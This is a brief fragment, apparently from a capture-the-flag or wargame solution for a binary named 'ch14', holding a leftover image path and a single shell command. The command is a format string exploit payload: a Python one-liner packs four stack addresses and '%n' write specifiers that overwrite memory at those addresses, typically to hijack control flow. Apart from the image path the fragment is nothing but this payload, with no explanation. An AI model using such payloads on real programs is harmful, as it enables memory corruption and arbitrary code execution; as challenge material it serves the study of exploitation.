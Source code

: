 ./ch14 $(python -c "print '\xc8\xfa\xff\xbf'+'\xc9\xfa\xff\xbf'+'\xca\xfa\xff\xbf'+'\xcb\xfa\xff\xbf'+'%223x%9\$n'+'%207x%10\$n'+'%239x%11\$n'+'%49x%12\$n'")
